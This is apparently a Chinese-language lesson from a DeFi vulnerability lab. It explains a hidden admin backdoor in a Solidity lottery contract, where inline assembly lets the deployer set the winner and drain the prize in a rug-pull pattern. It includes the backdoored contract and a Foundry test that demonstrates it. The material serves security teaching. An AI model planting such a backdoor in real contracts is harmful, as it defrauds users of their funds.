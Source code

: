 # 合约中隐藏的后门  
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)  

**名称：** 合约中隐藏后门漏洞  

**描述：**   
在这份合同中，一个看似公平的“LotteryGame”合约被巧妙地设计为允许
合同部署者/管理员拥有隐藏特权。  
这是通过使用汇编级的访问来存储变量，其中一个“referee”函数被设计为提供了一个管理后门。  
“pickWinner”函数似乎是随机选择一个赢家，但实际上它允许管理员设置赢家。  
这绕过了通常的访问控制，可以被未经授权的用户用来从奖池中提取资金，类似于rug pull的操作。  

攻击者可以通过编写内联汇编来操纵智能合约，以实现后门功能。任何敏感的参数都可以随时被更改。  


**场景：**  
抽奖游戏：任何人都可以调用pickWinner函数，如果你幸运的话，就能获得奖金。  
参考JST合约的后门。许多rugged的合约都有类似的模式。
合约中似乎没有setWinner函数，管理员如何进行rug操作呢？  

**LotteryGame合约：**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            //读取存储在插槽2上的管理员地址
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // 管理员后门，可以设置赢家地址
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```  
**如何测试：**  
forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv
```
// 定义一个名为 testBackdoorCall 的公共函数
function testBackdoorCall() public {
    // 声明两个地址，alice和bob，并将它们的值设置为分别从vm.addr(1)和vm.addr(2)的地址。
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // 部署LotteryGame合约的新实例，并将引用存储在LotteryGameContract变量中。
    LotteryGameContract = new LotteryGame();

    // 打印一条消息，指示Alice将调用pickWinner函数，但她实际上不会是赢家。
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // 调用vm的prank函数，以Alice的地址作为参数，暗示可能进行一些操作。
    vm.prank(alice);

    // 调用LotteryGameContract的pickWinner函数，将Alice的地址作为参数传递。
    LotteryGameContract.pickWinner(address(alice));

    // 在pickWinner函数调用后，打印当前抽奖奖金的金额。
    console.log("Prize: ", LotteryGameContract.prize());

    // 印一条消息，表示管理员将设置赢家以取走奖金。
    console.log("Now, admin sets the winner to drain out the prize.");

    // 再次调用LotteryGameContract的pickWinner函数，但这次将 Bob的地址作为参数传递。。
    LotteryGameContract.pickWinner(address(bob));

    // 打印管理员通过操纵设置的赢家地址。
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```  
**红框：** 恶意设置的赢家可以中奖。
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc89ca10c-c526-479d-83f5-a7f798142b42%2FUntitled.png?table=block&id=65b900de-4ff0-4ffa-8685-071dd4112db5&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)